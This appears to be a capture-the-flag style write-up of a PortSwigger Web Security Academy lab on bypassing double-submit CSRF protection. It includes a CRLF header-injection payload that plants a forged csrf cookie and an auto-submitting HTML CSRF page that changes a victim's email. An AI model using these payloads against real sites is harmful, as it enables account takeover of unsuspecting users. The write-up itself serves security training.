 
### CSRF where token is duplicated in cookie : PRACTITIONER

---


> Given credentials `wiener:peter`.
> Given credentials `carlos:montoya`.

> Logging in with the given credentials.

![](./screenshots/lab1-1.png)

> We see this page.

![](./screenshots/lab1-2.png)

> We know that the update email is vulnerable to CSRF.
> Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.

![](./screenshots/lab6-1.png)

> We see that the csrf cookie is duplicated in the token.
> Trying to manipulate the values of the token and cookie.

1. Modify the token and leave the cookie.

![](./screenshots/lab6-2.png)

2. Modify the cookie and leave the token.

![](./screenshots/lab6-3.png)

3. Modifying both to the same value.

![](./screenshots/lab6-4.png)

> Therefore, the validation technique simply checks if they are both equal.

> To exploit this, we need to send a cookie that has the same value as the token present in the HTML payload.
> To do that, similar to [[Portswigger/CSRF/Lab 6|Lab 6]], we exploit the search functionality and add in the `GET` request header injection to set a cookie.

> Capturing the `GET` request after searching using HTTP history.

![](./screenshots/lab5-8.png)

> There is a `Set-Cookie` header being used to create a new cookie.
> We can change the path and the query parameters.

```
/?search=mins%0d%0aSet-Cookie:%20csrf=FAKE%3b%20SameSite=None
```

> Sending this request we see that we added another cookie.

![](./screenshots/lab6-5.png)

> Now, we need to add this to the HTML payload. 
> Add it by removing the script tags and adding an img tag.

```HTML
<html> 
	<body> 
		<form action="https://0a74009f03ba08e0811b02f200930080.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="FAKE" />
		</form> 
		<img src="https://0a74009f03ba08e0811b02f200930080.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=FAKE%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
	</body> 
</html>
```

> Adding this payload to the exploit server and then storing and delivering to victim completes the lab.

---


